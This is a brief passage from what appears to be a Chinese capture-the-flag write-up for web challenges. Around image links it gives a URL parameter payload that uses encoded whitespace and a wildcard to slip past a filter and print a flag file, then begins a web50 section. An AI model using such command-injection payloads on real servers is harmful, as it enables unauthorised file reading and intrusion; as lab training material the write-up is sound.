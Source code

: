 ![image-20240120131449728](照片/image-20240120131449728.png)

构建命令

```
?c=tac%09fla?.php%26
```

得到flag

![image-20240120131524483](照片/image-20240120131524483.png)

------

#### web50

分析
